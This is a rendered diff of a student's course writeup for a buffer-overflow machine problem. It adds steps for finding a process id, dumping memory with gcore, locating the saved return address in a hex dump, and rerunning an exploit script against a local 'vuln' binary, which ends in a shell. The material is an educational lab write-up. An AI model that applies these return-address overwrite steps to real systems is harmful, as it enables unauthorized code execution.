

Before and after one commit to MingoMango17/CMSC134-Writeups, a Markdown page: Machine_Problem_1/writeup.md, the part around one of its changes. Shown at 85% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Machine_Problem_1/writeup.md
+++ b/Machine_Problem_1/writeup.md
@@ -555,12 +562,16 @@ $ python exploit.py | setarch $(uname -m) -R ./vuln
 
 This execution may or may not work as the memory addresses in GDB compared to being ran directly are different.
 This can be fixed by figuring out the exact memory address.
-There are many ways to do it but the simplest one that we have already done is through GDB and attaching GDB to the process of the program
+There are many ways to do it but the simplest one that we have already done is through GDB and attaching GDB to the process of the program.
+The process of debugging with an attached process is similar.
+First run the vulnerable program with `setarch` and open up another terminal with GDB by attaching to the vulnerable process
 
 ```sh
 $ setarch $(uname -m) -R ./vuln
 $ gdb -p <process id>
 ```
+
+To find the process id, use `ps aux`.
 
 And if this does not work, we can use `gcore` to dump the current memory of a process id and manually find our input
 
@@ -568,7 +579,60 @@ And if this does not work, we can use `gcore` to dump the current memory of a pr
 $ gcore <process id>
 ```
 
-Once the correct return address is acquired, we can now rerun the exploit
+Run the program again and find its process id
+
+```sh
+$ setarch $(uname -m) -R ./vuln
+$ ps aux | grep vuln
+
+birb     1450296 71.4  0.0   2732  1096 pts/9    R+   10:32   5:17 ./vuln
+```
+
+Here, the process id is `1450296`.
+We then dump the memory of the process after our input back in the program (I used `ABCDEFGH`)
+
+```sh
+$ gcore 1450296
+
+[Thread debugging using libthread_db enabled]
+Using host libthread_db library "/usr/lib/libthread_db.so.1".
+0x5655619a in main ()
+Saved corefile core.1450296
+[Inferior 1 (process 1450296) detached]
+```
+
+This will create a core file dump in binary format.
+Read the coredump in hex using any hex editor tools available, we'll use good old `xxd` and pipe it to `vim`
+
+```sh
+$ xxd -g 4 core.1450296 | vim
+```
+
+Then find the input (which is `ABCD`).
+There will be two results, find the memory addresses that contains the most likely data
+
+```
+...
+000043c0: 00000000 00000000 00000000 00000000  ................
+000043d0: 11040000 41424344 0a000000 00000000  ....ABCD........
+000043e0: 00000000 00000000 00000000 00000000  ................
+...
+```
+
+vs
+
+```
+...
+00074f50: 00000000 2cfee1f7 0cceffff 60cbfff7  ....,.......`...
+00074f60: 40cdffff 8c615556 38cdffff 41424344  @....aUV8...ABCD
+00074f70: 00000000 48cdffff 9a615556 00000000  ....H....aUV....
+...
+```
+
+The second result is more likely to contain the EBP and ESP which may be `0x48cdffff` and `0x9a615556`.
+We will use `0x44cdffff` (whose value is `0x00000000`), subtract 4 bytes to point to the return address `0x9a615556` to replace its value.
+
+Replace the EIP in the script with the correct return address, we can now rerun the exploit
 
 ```python
 $ python exploit.py | setarch $(uname -m) -R ./vuln
@@ -576,7 +640,8 @@ sh-5.2$ uname -a
 Linux NuclearChicken 6.7.4-arch1-1 #1 SMP PREEMPT_DYNAMIC Mon, 05 Feb 2024 22:07:49 +0000 x86_64 GNU/Linux
 ```
 
-And we got a shell!
+And voila!
+We got a shell!
 
 To conclude, there is not much difference in doing this method compared to GDB aside from automating the exploitation.
 The difficulty of running the program outside GDB lies on the ASLR (if enabled) and computers having allocating memory differently.
````
Also changed, not shown: other parts of Machine_Problem_1/writeup.md (+8 -1 lines).
